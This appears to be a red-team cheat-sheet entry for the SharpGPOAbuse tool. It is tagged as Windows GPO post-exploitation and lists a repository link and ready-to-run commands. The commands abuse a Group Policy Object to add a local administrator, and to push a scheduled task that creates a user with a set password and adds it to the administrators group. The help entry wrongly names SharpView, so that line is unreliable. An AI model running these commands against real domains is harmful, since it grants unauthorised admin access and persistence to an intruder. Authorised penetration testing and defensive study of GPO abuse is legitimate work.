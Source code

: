 # SharpGPOAbuse

%  windows,  gpo
#plateform/linux #target/local #cat/POSTEXPLOIT/GPO    

## _url
```
https://github.com/FSecureLABS/SharpGPOAbuse
```

## _desc
```

```

## _links
```
```

## help
```powershell
SharpGPOAbuse -h
```

## get command help
```powershell
SharpView.exe <command> -Help
```

## add local admin
```powershell
SharpGPOAbuse.exe --AddLocalAdmin --UserAccount M.SchoolBus --GPOName <username|jubeaz> --force ; gpupdate /force
```

## add computer task
```powershell
SharpGPOAbuse.exe --AddComputerTask --TaskName "<task_name|jubeaz>" --Author DOMAIN\Admin --Command "cmd.exe" --Arguments "net user <username|jubeaz> <password|Zaebuj12345+-> /add;net localgroup administrators <username|jubeaz> /add" --GPOName "<gpo_name|jubeaz>" --FilterEnabled --TargetDnsName <target_fqdn>
```